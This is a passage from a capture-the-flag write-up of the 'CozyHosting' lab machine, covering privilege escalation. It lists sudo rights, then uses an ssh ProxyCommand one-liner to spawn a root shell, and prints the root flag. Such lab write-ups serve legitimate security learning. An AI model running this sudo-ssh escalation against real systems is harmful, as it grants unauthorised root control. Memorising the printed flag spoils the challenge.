 One of the first thing when trying to do privilege escalation is trying to check what program we can execute as root. To do this, we do a `sudo -l` :

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Sorry, try again.
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

We can run `ssh` as root, this is our winning card. Using [this](https://gtfobins.github.io/gtfobins/ssh/) technique. What this does is summoning an `ssh` commands to itself, but then executes a `ProxyCommand` that spawns a shell as root (since we used sudo) and redirect `stdin` and `stdout` to `stderr`.
We can instantly access `root` privilege :

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cat ~/root.txt
a6a1404347b1452f9284e1fea77db99e
```

And there we have it, we have root access to CozyHosting!
